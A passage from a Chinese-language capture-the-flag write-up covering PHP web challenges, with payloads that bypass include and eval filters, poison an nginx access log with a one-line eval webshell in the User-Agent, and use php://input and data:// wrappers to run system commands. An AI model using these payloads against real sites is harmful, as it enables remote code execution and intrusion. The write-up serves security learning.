 结合这里的include，构造如下语句，也可以尝试先/etc/passwd，确认的确可以包含。

`?c=include%0a$_GET[a]?>&a=../../../../var/log/nginx/access.log`

访问该路径时，（这一步一直不成功）在User-Agent中写入一句话木马`<?php @eval($_POST[‘a’]);?>`，然后用中国蚁剑连接即可

或者修改User-Agent为我们要执行的语句，访问主页。 再去访问日志，就可以看到当前目录的文件列表了。





## Web 35

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){ 
```

这里介绍两种方法：`php://input`和`Data伪协议`

### **php://input**

题目对常见命令都进行过滤，但是仔细发现可以利用include进行绕过，具体实现方式为 `eval(include flag.php;);`，但是题目屏蔽了分号(;)和点号(.),，其中分号可以使用?>平替，但是点号无法绕过，遂使用post执行php代码注入flag.php，因此可得payload:

GET：`?c=include$_GET[1]?>&1=php://input`

POST：`<?php system('tac flag.php');?>`

**注意**：因为POST没有按照key=value封装数据，因此hackBar认为数据有问题，不会发送数据，可以使用Burp Suite发送数据。**!!注意!! php://input别使用hakebar，用BurpSuite**

**补充:**    `php://input`默认读取没有处理过的POST数据



#### **Data伪协议：**

**Data伪协议用法：**

1. `data://text/plain,php代码`
2. `data://text/plain;base64,php代码`

`?c=include%0a$_GET[a]?>&a=data://text/plain,<?php system("tac fla*");?>`

这个不知道为什么也是在hakebar里面发送不出去，直接在浏览器地址栏里面弄就好了





## Web 37

代码如下：

```php
<?php
//flag in flag.php
error_reporting(0);
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/flag/i", $c)) {
        include($c);
        echo $flag;
    }
} else {
    highlight_file(__FILE__);
}
?>
```
